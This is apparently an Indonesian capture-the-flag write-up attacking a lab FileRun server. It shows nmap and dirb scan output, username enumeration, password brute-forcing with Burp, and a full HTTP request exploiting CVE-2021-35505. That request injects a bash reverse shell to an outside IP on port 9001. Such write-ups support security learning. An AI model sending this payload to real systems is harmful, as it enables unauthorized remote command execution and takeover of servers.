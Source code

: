  
# Enemuration

Nmap

```
# Nmap 7.94SVN scan initiated Mon Feb 26 17:51:36 2024 as: nmap -sC -sV -oN nmapx -p- -T4 --min-rate=1000 -v 10.1.2.10
Warning: 10.1.2.10 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.1.2.10
Host is up (0.25s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT   STATE    SERVICE VERSION
19/tcp filtered chargen
22/tcp open     ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 41:48:e8:68:d4:2b:4f:ad:2f:08:e7:61:d0:39:66:ca (DSA)
|   2048 64:d3:ae:38:91:8d:a8:d5:fb:f7:63:67:f7:51:db:45 (RSA)
|   256 95:d9:14:be:e9:06:52:14:4d:8d:0d:11:e2:33:d9:3e (ECDSA)
|_  256 92:aa:a2:d9:3d:5d:1d:03:2a:3a:45:c6:d5:e9:0e:19 (ED25519)
53/tcp open     domain  ISC BIND 9.9.5-3ubuntu0.16 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.9.5-3ubuntu0.16-Ubuntu
80/tcp open     http    Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: FileRun :: Login
|_http-favicon: Unknown favicon MD5: 4DB45763B22716132DEEF3CC03FDF215
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Feb 26 17:53:30 2024 -- 1 IP address (1 host up) scanned in 114.47 seconds

```


Dirb


```

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

OUTPUT_FILE: dirbx.txt
START_TIME: Mon Feb 26 17:55:09 2024
URL_BASE: http://10.1.2.10/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://10.1.2.10/ ----
==> DIRECTORY: http://10.1.2.10/a/
==> DIRECTORY: http://10.1.2.10/cron/
==> DIRECTORY: http://10.1.2.10/css/
==> DIRECTORY: http://10.1.2.10/download/
+ http://10.1.2.10/favicon.ico (CODE:200|SIZE:5430)
==> DIRECTORY: http://10.1.2.10/images/
+ http://10.1.2.10/index.php (CODE:200|SIZE:2121)
+ http://10.1.2.10/info.php (CODE:200|SIZE:91052)
==> DIRECTORY: http://10.1.2.10/javascript/
==> DIRECTORY: http://10.1.2.10/js/
==> DIRECTORY: http://10.1.2.10/logout/
==> DIRECTORY: http://10.1.2.10/panel/
==> DIRECTORY: http://10.1.2.10/phpmyadmin/
+ http://10.1.2.10/server-status (CODE:403|SIZE:289)
==> DIRECTORY: http://10.1.2.10/sounds/
==> DIRECTORY: http://10.1.2.10/sso/
==> DIRECTORY: http://10.1.2.10/system/
+ http://10.1.2.10/web.config (CODE:200|SIZE:711)

---- Entering directory: http://10.1.2.10/a/ ----
+ http://10.1.2.10/a/index.php (CODE:200|SIZE:82)

---- Entering directory: http://10.1.2.10/cron/ ----
```




# Exploitation



Pada halaman pertama website di hadapakan oleh form login dari filerun.
Menebak authentication dengan `admin:admin` mendapat response `Invalid username.` tetapi dengan menggunakan default credentials dengan username `superuser:superuser` mendapat response `invalid password.` yang mana form login tersebut memiliki celah user enemuration dan brute-force.

![alt text](images/admin.png) ![alt text](images/superuser.png)

Brute-force password superuser menggunakan burpsuite turbo intruder
- Setup turbo intruder

  ![alt text](images/setup-intruder.png)

- Response valid password

  ![alt text](images/response-password.png)



Reverse shell dengan rce dari PoC [CVE-2021-35505](https://syntegris-sec.github.io/filerun-advisory)


```
POST /?module=cpanel&section=settings&page=image_preview&action=checkImageMagick HTTP/1.1
Host: 10.1.2.10
Content-Length: 44
sec-ch-ua: "Chromium";v="91", " Not;A Brand";v="99"
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept: */*
Origin: http://localhost
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://10.1.2.10/?module=cpanel
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: FileRunSID=gpge7fnapi5d4jk3prads0qmo4 // ganti cookie yang valid
Connection: close

mode=exec&path=convert%7Cecho%20%60bash+-c+'bash+-i+>%26+/dev/tcp/10.18.200.73/9001+0>%261'%60


```

User flag

![alt text](images/user-flag.png)